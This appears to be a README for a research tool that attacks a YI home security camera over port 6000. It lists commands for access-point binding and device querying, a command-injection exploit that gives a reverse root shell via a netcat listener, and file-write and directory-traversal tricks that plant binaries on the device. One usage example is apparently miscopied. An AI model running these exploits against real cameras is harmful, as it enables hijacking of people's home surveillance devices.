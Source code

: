 ### `ap_bind`

This is used to bind the camera to an access point via port 6000, credentials are encoded and sent to the camera. Once received, the camera will stop the hotspot and try and connect to the provided access point.

```
python3 yihaw.py ap_bind SSID PWD BIND_KEY
```

### `ap_preview`

This uses the `ap_preview` method to fetch information about the camera via port 6000.

```
python3 yihaw.py ap_bind SSID PWD BIND_KEY
```

```
[+] Received response:
{
    "did": "A2069004G3MJBW230316",
    "isHorn": "1",
    "is_white": "1",
    "light_time": "1336127670",
    "operator": "ap_preview",
    "state": "OK",
    "tnp_uid": "T206900-632912-30316",
    "trigger_light": "0",
    "with_ptz": "1"
}
```

## `ap_update_name_cmd_injection`

Exploits a command injection vulerability in `ap_update_name` for a reverse root shell. 

- Terminal 1: `sudo nc -l 123`
- Terminal 2: `python3 yihaw.py ap_update_name_cmd_injection *YOUR IP* 123`

## `ap_update_name_file_write`

Exploits the fact that the camera does not delete update files if the md5 check fails, files are written to `/tmp`

```
python3 yihaw.py ap_update_name_file_write ./binaries/gdbserver-static
```

## `ap_update_name_file_write_sd`

Exploits the fact the camera does not delete update files if the md5 check fails, as well as a directory traversal, to write provided file to the SD card (`/mnt`)

```
python3 yihaw.py ap_update_name_file_write_sd ./binaries/gdbserver-static
```
